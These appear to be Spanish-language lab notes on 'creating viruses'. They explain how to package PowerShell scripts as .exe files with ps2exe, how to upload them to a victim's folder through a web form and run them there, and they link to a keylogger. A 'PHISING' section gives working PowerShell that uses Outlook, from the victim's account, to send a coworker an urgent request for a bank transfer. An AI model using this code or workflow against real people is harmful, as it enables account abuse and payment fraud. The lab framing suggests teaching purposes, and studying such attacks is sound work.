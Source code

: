 # CREACIÓN DE VIRUS

Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Target file.
<br/>
<a href="https://i.stack.imgur.com/iZ9es.png"><img src="https://i.stack.imgur.com/iZ9es.png" /></a>
<br/>
Para mas dudas de con la instalación visita [ESTE ENLACE](https://www.optimizationcore.com/scripting/powershell-ps1-to-exe-converter-ps2exe-markus-scholtes/).

## MODUS OPERANDI
Para crear el laboratorio, vamos a crear un **formulario** al cual subiremos los ejecutables que se guardarán en una carpeta **Upload** (propiedad de la victima) donde posteriormente ejecutaremos

Aqui podemos ver como crearlo [Formulario y carpeta upload](https://github.com/PabloQueipo/IAW/blob/cf923c250a9a52f6598e0b01b7d996cb9978ef58/2020_11_27.md)



## PHISING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.
```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```








## CREACIÓN DE KEYLOGGER (PYTHON)
[Pablo Queipo Keylogger](https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md9)
